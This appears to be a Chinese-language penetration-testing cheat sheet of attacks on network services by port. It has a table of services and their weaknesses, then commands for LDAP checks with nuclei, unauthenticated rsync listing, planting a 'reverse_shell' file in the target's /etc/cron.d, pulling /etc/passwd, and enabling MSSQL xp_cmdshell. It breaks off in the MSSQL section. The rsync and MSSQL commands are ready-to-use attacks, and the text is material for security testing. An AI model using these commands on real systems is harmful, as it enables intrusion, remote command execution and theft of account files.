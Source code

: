 # 端口测试

## Overview

<table><thead><tr><th width="170">端口 / 服务</th><th width="152">服务类型</th><th>漏洞危害</th></tr></thead><tbody><tr><td>389 LDAP</td><td>目录访问</td><td>未授权访问信息泄露</td></tr><tr><td>873 Rsync</td><td>同步备份</td><td>未授权访问、文件上传、文件下载</td></tr><tr><td>1433 MSSQL</td><td>数据库</td><td>命令执行</td></tr><tr><td>1833 MQTT</td><td>物联网通讯</td><td>未授权访问信息泄露；暴力破解</td></tr><tr><td>2375 Docker</td><td>虚拟化</td><td>未授权访问文件上传 (容器逃逸)</td></tr><tr><td>2379 etcd</td><td>分布式键值存储</td><td>未授权访问信息泄露</td></tr><tr><td>3306 MySQL</td><td>关系型数据库</td><td>文件写入、文件读取、GetShell</td></tr><tr><td>6379 Redis</td><td>键值型数据库</td><td>未授权访问文件写入</td></tr><tr><td>8080 InfluxDB</td><td>时序型数据库</td><td>未授权访问 (CVE-2019-20933)</td></tr><tr><td>27017 MongoDB</td><td>文档型数据库</td><td>未授权访问</td></tr></tbody></table>

## 389 LDAP

```bash
# 未授权访问
# LDAP Admin Tool - https://www.ldapsoft.com/download.html
使用工具配置服务主机信息后连接

# 批量检测未授权访问
# 优先使用工具, 下面的 nuclei 检测模板仅能检测开启了 HTTP 服务的 LDAP
# ~/nuclei-templates/http/misconfiguration/unauth-ldap-account-manager.yaml
nuclei -t ~/nuclei-templates/http/misconfiguration/unauth-ldap-account-manager.yaml -l ip.txt
```

## 873 rsync

```bash
HOST=;PORT=873;

# 未授权访问
rsync rsync://$HOST:$PORT/


# 文件上传 (计时任务)
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/cron.d/reverse_shell


# 文件下载
rsync -av rsync://$HOST:$PORT/src/etc/passwd ./passwd.downloaded
```

## 1433 MSSQL

```bash
# 命令执行
# 查看 xp_cmdshell 开启状状态 0 Closed / 1 Opened
EXEC sp_configure 'xp_cmdshell';
GO

# 启用 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
GO
RECONFIGURE;
GO
EXEC sp_configure 'xp_cmdshell', 1;
GO
RECONFIGURE;
GO

# 使用 xp_cmdshell 执行 whoami 命令
```